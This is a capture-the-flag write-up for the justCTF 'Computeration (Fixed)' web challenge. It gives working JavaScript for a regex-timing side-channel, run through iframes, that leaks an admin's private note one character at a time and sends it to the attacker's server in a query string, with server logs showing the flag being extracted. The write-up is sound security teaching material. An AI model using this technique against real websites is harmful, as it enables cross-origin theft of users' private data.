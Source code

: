 # Computeration (Fixed)
**Catagory:** Web
**Difficulty:** Hard
>  Can you get admin's note? I heard the website runs only on client-side so should be secure...   https://computeration-fixed.web.jctf.pro/  
If you find anything interesting give me call here: https://computeration-fixed.web.jctf.pro/report

>The flag is in the format: justCTF{[a-z_]+}.

**note**: I didn't solve this challenge during the CTF, but as a web-noob, I wanted to create a writeup that was as bit more beginner friendly for my fellow web-noobs.

## Recon: The Webapp
Let's start by taking a look at the source of the webapp. There are a couple things to note right out of the gate:  
1. The `x-frame-options` header is not set, so we can `iframe` the webapp to our hearts content. _(foreshadowing?)_
2. Notes are indeed client-side, and reside in the session's localStorage:

```js
let notes = JSON.parse(localStorage.getItem('notes')) || [];
```

3. Neither note creation, nor rendering is properly sanitized, however this is not useful as there is no way to turn this into anything other than a self-XSS.

4. Searches are based on the current URL, and use regex under the hood.
```js
function searchNote(){
    location.hash = searchNoteInp.value;
}

// triggers when the hash _changes_. Note that the initial page load is not considered a "hash change"
onhashchange = () => {
    // example.com#search_regex -> search_regex
    const reg = new RegExp(decodeURIComponent(location.hash.slice(1)));
    const found = [];
    // Compare the contents of all notes to the provided regex,
    // If they match, add their title to the "found" list
    notes.forEach(e=>{
        if(e.content.search(reg) !== -1){
            found.push(e.title);
        }
    });
    notesFound.innerHTML = found;
}
```

Being able to control the search by url will become important later, because it allows us to interact with the webapp, even if we can only control the url.

## Recon: The Report Function
Let's now focus on the second part of the challenge:
> If you find anything interesting give me call here: https://computeration-fixed.web.jctf.pro/report

If we visit the report link, we are greeted by a form where we can input a url for the admin to inspect. Let's first test if there are any restriction on the report url.  
First, start a `nc` listener on a publicly reachable IP and port. Then submit `http://[IP]:[Port]` to the admins form. Within a few seconds, the `nc` terminal shows that the admin has connected to our server.  
Nice! this means that we can create our own malicious webpage and submit it for review later.

## The Vulnerability
The main vulnerability in the webapp is that we can make another user perform a search on their private data, using a regex that we provide.  
  
This is an issue, because we can construct regexes that can take a long time to complete, if and only if, they match a certain prefix. We can abuse this to leak the flag char by char, based on how long it takes to perform a search.  
  
Here is an example of such a regex:
```js
// Prefix: "justCTF"
// Guess : "a"
let regex = "^(?=justCTF{a).*.*.*.*.*.*.*.*.*.*ABCDE";
```
If the flag does not start with "justCTF{a", the regex engine will quickly return with no matches. However, if the flag does start with "justCTF{a", the regex engine suddenly needs to evaluate an exponential number of ways to match the flag with the ".\*"-chain.  

The final secret-sauce is the last part of the regex. Without it, the engine can instantly return a match, since the flag matches `^justCTF{a.*`.


## Exploitation
> Full exploit code is [available on github](https://github.com/RickdeJager/CTF/tree/master/JUSTCAT2020/web/computeration/code), this section will cover only the juicy parts.  

### The Game Plan
1. Load an `iframe` that contains the webapp.
1. Perform a regex search in the `iframe` to guess the next character of the flag.
1. Queue another task and measure how long it takes to complete.
1. If the task takes longer than expected, the regex engine must have slowed down our thread. This means our guess was correct.

Initially, I used an `async` function with a timeout to perform measurements. However, this approach only works in the challenge server is single threaded. Otherwise the measurement will simply be performed on another thread due to "Site Isolation" (see [xsleaks](https://xsleaks.dev/docs/attacks/timing-attacks/execution-timing/)).  
  
In a nutshell, **Chrome isolates javascript processes by their respective domains**, so we need a way to create a task under the challenge servers domain. To do this, we will just load a new `iframe` with `src=https://computeration-fixed.web.jctf.pro/#` for each guess.

### Guessing The Next Character

The following two functions are used to guess a character. The `delta` and  `threshold` values, as well as the "difficulty formula" are chosen such that a successful guess takes ~200ms, while a failure takes only a few ms at most.  

```js

function testChar(c) {
  // Measure the initial time
  var start = performance.now();

  // Perform a slow regex search in the iframe
  // The number of ".*"'s goes up as we learn more of the flag, to keep the
  // regex sufficiently difficult.
  var dif = 6 + Math.floor(Math.log(known.length) / 2);
  var regex = "^(?="+known+c+")"+ ".*".repeat(dif) +"ABCDE$";
  ifr.src = url+encodeURIComponent(regex);
  // Sleep for a few ms, to ensure the regex engine is churning when we load the second iframe
  await sleep(delta);

  // Setup a measurement by creating a new iframe on the challenge domain.
  var ifr2 = document.createElement('iframe');
  ifr2.src = url;
  ifr2.onload = measure(start, c);
  document.body.appendChild(ifr2);
}

async function measure(start, c) {
  var time = performance.now() - start - delta;
  console.log("[%s: %d ms] %s", c, time, known);


  // This took longer than usual, indicating regex-bullshittery
  if (time > threshold) {
    // Update the "known" variable with the new character
    known = known + c;
    // Add the current flag to the url so we can see it in our server logs
    window.location = window.location.origin + window.location.pathname + "?" + known;
  }
}

```


This code is easily turned into a bruteforcer by looping over the entire alphabet and testing each character. Note that you must also exfiltrate the flag somehow. I chose to save it in the query string, which shows up in most webserver logs.


### Hosting the exploit
To host this exploit, create a simple webpage that loads the exploit script. This webpage must never finish loading, since the bot will leave our site when it does. This can be fixed by adding an image that loads slowly.
```html
<img src="https://deelay.me/10000/http://example.com"/>
```

Now we are ready to actually host our exploit, which we can do with pythons webserver for example. Next, we send the admin a link to our hosted page. Within a few seconds, the admin connects and we start to receive parts of the flag.  

The admins connection will timeout at some point, so it is important that the exploit code reads the partial flag from the query string such that it can resume. Using the above code you can leak about two or three characters per attempt.
```
ctf@ctf-vps:~/justCAT$ python3 -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
[...]
206.189.107.148 - - [05/Feb/2021 16:56:24] "GET /hack.html?justCTF{no_refere HTTP/1.1" 200 -
206.189.107.148 - - [05/Feb/2021 16:56:32] "GET /hack.html?justCTF{no_referer HTTP/1.1" 200 -
206.189.107.148 - - [05/Feb/2021 16:56:35] "GET /hack.html?justCTF{no_referer_ HTTP/1.1" 200 -
[...]
206.189.107.148 - - [05/Feb/2021 16:58:03] "GET /hack.html?justCTF{no_referer_typo_ehhhhhh HTTP/1.1" 200 -
206.189.107.148 - - [05/Feb/2021 16:58:07] "GET /hack.html?justCTF{no_referer_typo_ehhhhhh} HTTP/1.1" 200 -
```

```
flag: justCTF{no_referer_typo_ehhhhhh}
```

## Demo
The victims chrome session can be seen in the top half of the screen. The bottom half of the screen shows the requests received by our PHP server. The flag is slowly extracted over the course of a few minutes.

![](res/demo.gif)


## Acknowledgement and Links
I wrote this writeup after the CTF was over, mainly to gain a better understanding of web challenges. I started by reading the [writeup written by the challenge author](https://ctftime.org/writeup/25869), which also contains a lot of links to other great resources.  

